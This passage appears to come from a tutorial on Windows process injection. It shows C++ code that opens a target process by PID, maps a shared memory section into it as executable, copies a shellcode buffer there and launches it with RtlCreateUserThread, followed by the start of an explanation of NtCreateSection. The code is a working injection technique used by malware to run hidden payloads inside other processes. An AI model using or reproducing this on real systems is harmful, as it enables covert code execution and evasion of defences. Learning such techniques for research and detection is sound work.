 ```cpp
            std::cout << "[x]Create map failed\n";
            return 0;
        }

        HANDLE processHandle = OpenProcess(
                PROCESS_ALL_ACCESS, 
                FALSE, 
                DWORD(atoi(argv[1])));
        if (processHandle == NULL)
        {
            std::cout << "[x] Open process failed\n";
            return 0;
        }  
        // create a map view of the section in the target process
        if (fNtMapViewOfSection(
                sectionHandle, 
                processHandle, 
                &remoteSectionAddress, 
                NULL, NULL, NULL,
                &size, 2, NULL, 
                PAGE_EXECUTE_READ) != STATUS_SUCCESS)
        {
            std::cout << "[x]Create map failed\n";
            return 0;
        }

        std::cout << "remote section created" << std::endl;

        memcpy(localSectionAddress, buf, sizeof(buf));

        std::cout << "Shellcode injected at 0x" << std::hex << remoteSectionAddress << std::endl;

        CloseHandle(sectionHandle);
        HANDLE targetThreadHandle = NULL;
        fRtlCreateUserThread(
                processHandle, 
                NULL, 
                FALSE, 0, 0, 0, 
                remoteSectionAddress, 
                NULL, 
                &targetThreadHandle, NULL
            );
    }
    else 
    {
        std::cout << "./whatever.exe <pid>" << std::endl;
    }
}
```

`NtCreateSection` function creates a shared section of memory that two or 
more processes can read from and write into. The function expects ** address of an uninitalized section handle. This section handle is initialized 
by the function and will be used when referencing to that specific section
